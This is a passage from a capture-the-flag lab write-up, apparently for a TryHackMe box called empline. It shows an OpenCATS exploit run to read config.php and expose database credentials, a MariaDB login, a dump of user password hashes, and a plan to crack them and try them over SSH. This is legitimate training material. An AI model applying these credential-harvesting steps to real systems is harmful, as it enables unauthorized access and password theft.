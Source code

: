 So everything seems to be working, and we've discovered a non-system user george. We could try and brute force ssh using this username, but Dodd's runthrough of the attack presents another possible target `config.php`, an OpenCATS configuration file. Targeting this file reveals credentials for the MySQL service :

```console
┌──(kali㉿kali)-[~/Documents/tthm/empline]
└─$ python3 empline_exploit.py
<?php
/*
 * CATS
 * Configuration File
 *
...snip...
/* Database configuration. */
define('DATABASE_USER', 'james');
define('DATABASE_PASS', 'PASSWORD');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
...snip...
```

## 4. Credential discovery - MariaDB

Connecting to the MySql service with the discovered credentials we find two databases :

```console
┌──(kali㉿kali)-[~/Documents/tthm/empline]
└─$ mysql -h $IP -u james -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
...snip...
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.097 sec)
```

We select the opencats database (`use opencats;`) and print the list of tables (`show tables;`), revealing a "user" table with "user_name" and "password" fields (`describe user;`). We then request these fields from the table to discover the george user's password hash : 

```console
MariaDB [opencats]> select user_name, password from user;
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | b67b5ecc5d8902ba59c65596e4c053ec |
| cats@rootadmin | cantlogin                        |
| george         | 86d0dfda99dbebc424eb4407947356ac |
| james          | e53fbdb31890ff3bc129db0e27c473c9 |
+----------------+----------------------------------+
4 rows in set (0.103 sec)
```
The hash can be cracked by Crackstation, or by john with rockyou. This password is not necessarily the same password used by the george user for SSH access (and it definitely shouldn't be), but we should probably try it anyway : 
